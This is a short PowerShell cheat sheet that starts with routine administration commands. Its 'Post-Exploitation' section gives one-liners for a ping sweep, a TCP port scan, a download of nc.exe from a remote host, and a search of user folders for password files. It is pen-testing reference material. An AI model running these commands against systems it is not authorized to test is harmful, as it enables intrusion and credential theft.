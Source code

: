 **Get present directory (pwd, gl):**
```powershell
PS C:\> Get-Location
```

**Get a process listing (ps, gps):**

```powershell
PS C:\> Get-Process
```

**Get a service listing:**
```powershell
PS C:\> Get-Service
```

**Formatting output of a command (Format-List):**

```powershell
PS C:\> ls | Format-List –property name
```

**Paginating output:**
```powershell
PS C:\> ls –r | Out-Host -paging
```
**Get the SHA1 hash of a file:**

```powershell
PS C:\> Get-FileHash -Algorithm SHA1 file.txt
```

**Exporting output to CSV:**
```powershell
PS C:\> Get-Process | Export-Csv procs.csv
```

PowerShell for Pen-Tester Post-Exploitation
---------

**Conduct a ping sweep:**
```powershell
PS C:\> 1..255 | % {echo "10.10.10.$_";ping -n 1 -w 100 10.10.10.$_ | Select-String ttl}
```

**Conduct a port scan:**
```powershell
PS C:\> 1..1024 | % {echo ((new-object Net.Sockets.TcpClient).Connect("10.10.10.10",$_)) "Port $_ is open!"} 2>$null
```

**Fetch a file via HTTP (wget in PowerShell):**
```powershell
PS C:\> (New-ObjectSystem.Net.WebClient).DownloadFile("http://10.10.10.10/nc.exe","nc.exe")
```
**Find all files with a particular name:**
```powershell
PS C:\> Get-ChildItem "C:\Users\" -recurse -include *passwords*.txt
```

**Get a listing of all installed Microsoft Hotfixes:**
```powershell
PS C:\> Get-HotFix
```
